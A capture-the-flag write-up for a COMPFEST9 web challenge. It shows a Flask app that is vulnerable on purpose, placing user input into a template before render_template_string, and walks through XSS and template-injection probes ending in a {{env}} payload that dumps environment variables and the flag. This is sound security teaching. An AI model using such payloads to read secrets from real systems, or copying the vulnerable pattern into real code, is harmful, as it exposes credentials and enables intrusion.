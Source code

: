 Flag Validator (50)
===================

## Description
[http://tenjin.compfest.web.id:10337](http://tenjin.compfest.web.id:10337)

**app.py**:

```python
import os
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route('/', methods=['POST', 'GET'])
def index():
	template = None

	if request.method == 'GET':
		template = '''
		{% extends "index.html" %}
		{% block content %}
			<form method="post">
				<input type="text" name="flag" placeholder="COMPFEST9{...}">
				<button type="submit">Check</button>
			</form>
		{% endblock %}
		'''
	elif request.method == 'POST':
		data = request.form
		template = '''
		{{% extends "index.html" %}}
		{{% block content %}}
			<h3><code>{0}</code>
			{{% if "{0}" == env.FLAG %}}
				is the correct flag!
			{{% else %}}
				is not the correct flag.
			{{% endif %}}</h3>
		{{% endblock %}}
		'''.format(data['flag'])

	return render_template_string(template, env=os.environ)
```

## Write up
- Opening the website gives us a form to validate our flag
- Try typing `asd` and check if it is the correct flag
- The website returns `asd is not the correct flag.`
- Well let's check for XSS, enter `<i>test</i>`
- (Not) surprisingly the website renders test in italic
- Since there is no way to get privileged user to visit our XSS'd page, we check for another vulnerabilities: XSS is a good sign for SSTI

>  You can also see from `app.py` that it uses string formatting with `render_template_string` so we can inject anything and the server will render it for us (also see: [Injecting Flask](https://nvisium.com/blog/2015/12/07/injecting-flask/))

- Let's try entering `{{ 1 + 1 }}`, it renders as `2`.
- The flag is in the environment variable, and it is provided in the `env` variable as you can see in the last line
- Entering `{{env}}` will return all the environment variable:

```
environ({'HOSTNAME': '58ca4e79a8bf', 'SHLVL': '1', 'PYTHON_PIP_VERSION': '9.0.1', 'HOME': '/root', 'GPG_KEY': '0D96DF4D4110E5C43FBFB17F2D347EA6AA65421D', 'PATH': '/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin', 'LANG': 'C.UTF-8', 'PYTHON_VERSION': '3.6.1', 'PWD': '/app', 'FLAG': 'COMPFEST9{user_input_is_3v1L}', 'SERVER_SOFTWARE': 'gunicorn/19.7.1'}) is not the correct flag.
```

- Thus the flag is `COMPFEST9{user_input_is_3v1L}`

